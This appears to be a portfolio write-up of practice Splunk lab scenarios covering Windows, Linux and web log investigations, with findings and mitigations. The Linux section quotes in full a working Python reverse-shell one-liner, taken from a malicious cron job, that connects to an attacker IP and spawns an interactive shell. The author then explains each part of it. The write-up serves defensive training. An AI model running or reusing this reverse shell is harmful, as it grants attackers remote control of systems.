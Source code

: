 # Log Analysis & Threat Detection with SIEM (Splunk)

## Windows Log Analysis (Practice Scenario)
**Scenario:** I investigated an alert about a suspicious network connection on port 5678 from host WIN-105.
![Windows query filtering to EventCode=3, port 5678, WIN-105](pics/windows-1.png)  
![Expanded Sysmon EventCode=3 with process image and destination](pics/windows-2.png)  

From the query results, the IP address that the connection was established with was 10.10.114.80 (the destinationIP).
Sharepoint.exe was the process that initiated that suspicious connected as the image field with eventcode=3 shows the full path of the process: Image: C:\Windows\Temp\SharePoInt.exe

Since I know the process that initiated this suspicious connection, I can extract the MD5 hash values to fingerprint a malicious binary 

![Hash extraction for SharePoInt.exe](pics/windows-3.png)

**Findings:** EventCode 3 logs revealed outbound traffic initiated by Sharepoint.exe to a remote IP. The process hash was extracted and identified as malicious.
**Recommendations:** 
- Block/hash‑ban `SharePoInt.exe` hash across EDR/AV; quarantine artifact from `%SystemRoot%\Temp`.
- Constrain execution from `Temp` directories (AppLocker/WDAC).  
- Alert on Sysmon **Event ID 3** for unusual destinations/ports and **Event ID 1** for process creation from temp.

## Linux Log Analysis (Practice Scenario)
**Scenario**
I received an alert indicating possible persistence through the creation of a new remote-SSH user on an Ubuntu server. My task is to investigate the logs in Splunk (index=task5) and determine exactly what occurred.

Time stamp of the remote-ssh account creation: 08/12/25 9:52:57.170 AM (useradd remote-ssh)
![Auth log timeline and sudo/su events around user creation](pics/linux-1.png)  



User Escalating Privileges: jack-brown (successfully escalated to root)
![Zoom on sudo/su session open/close with command context](pics/linux-2.png)  


Now i will use process-sshd to find the ip address of the user who escalated privileges to root (jack brown) and look  for SSHD “Accepted password” logs in auth.log
![Accepted/Failed password events with client IP](pics/linux-3.png)  


The second event shows : sshd[25955]: Accepted password for jack-brown from 10.14.94.82 port 54451 ssh2, showing the source IP to be 10.14.94.82


There were 4 failed login attempts before the successful login, which also list the same source IP (10.14.94.82)
![Filtering sshd events and Accepted/Failed sequences](pics/linux-4.png)

During Linux log analysis, I identified a malicious cron job configured with a Python reverse shell. The code attempted to establish a persistent outbound connection to the attacker at IP 10.10.33.31 on port 7654. This confirmed the persistence mechanism was set to maintain remote access via reverse shell.

**The Splunk query was:**

index=task5 source="syslog" process=CRON

This pulled log entries related to scheduled jobs (cron tasks). Cron is often abused by attackers for persistence because it executes commands at intervals.

The log output contains a suspicious cron job that executes Python one-liners:

python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("10.10.33.31",7654)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); 
p=subprocess.call(["/bin/sh","-i"]);'

**Breakdown of python one-liner:**

socket.socket(...) → Creates a network socket.

s.connect(("10.10.33.31",7654)) → Connects to IP 10.10.33.31 on port 7654.

os.dup2(s.fileno(),0/1/2) → Redirects standard input, output, and error to the socket (so the attacker can control the shell remotely).

subprocess.call(["/bin/sh","-i"]) → Spawns an interactive shell.

**Findings**
Remote-SSH Account Creation: 2025-08-12 09:52:57
User Escalating Privileges: jack-brown (successfully escalated to root)
Source IP: 10.14.94.82
Failed Login Attempts Prior to Success: 4
Persistence Mechanism Port: 7654

**Analysis**
This activity demonstrated persistence via creation of a new SSH user, followed by brute-force attempts and successful privilege escalation to root. By correlating login timestamps, user actions, and source IP addresses, I confirmed malicious activity and documented indicators of compromise (IOC).

**Recommendations:** 
- Enforce **SSH key‑based auth**, disable password auth; limit to allow‑listed IPs with `sshd_config` + firewall.
- Monitor `useradd`, `/etc/passwd` diffs, and `/etc/sudoers` changes; alert on new admin users.
- Audit **cron**: lock down `/etc/crontab`, `/etc/cron.*`, and user crontabs; baseline and alert on changes.
- Egress filtering: block outbound to **10.10.33.31:7654** and similar high‑risk ports.


## Web Log Analysis (Practice Scenario)
**Scenario**
I received an alert about a spike in activity on the organization’s web server. My task was to investigate web logs (index=task6) in Splunk to determine the source, nature, and classification of the activity.
Looking for URI path that had the highest number of requests, path/wp-login.php had the highest, at 905 requests. Since there’s 905 requests, this is likely to be a brute force attack:
![Field discovery showing /wp-login.php dominating requests](pics/weblog-1.png)  


Identified the IP Address that was the source of the activity connected to /wp-login.php as 10.10.243.134 as shown through the clientip as well as the tool the threat actor used via useragent, identified as WPScan :
![Event detail: clientip, referrer, method=POST, useragent=WPScan](pics/weblog-2.png)


**Findings**
URI Path with Highest Requests: /wp-login.php
Source IP Address: 10.10.243.134
Classification: Brute-force attack targeting WordPress login endpoint
Threat Actor Tool: WPScan (identified via user-agent string in the logs)

**Analysis**
This attack represented a credential brute-force attempt against the WordPress login portal. By correlating repeated requests to /wp-login.php from the same source IP and identifying the user-agent string belonging to WPScan, I confirmed the activity as automated brute forcing.

**Response Recommendation**
- Rate‑limit `/wp-login.php`, enable **MFA** and **account lockout**.
- Deploy **WAF** rules for brute‑force patterns; 
- Keep WordPress & plugins patched; consider CAPTCHA on login.
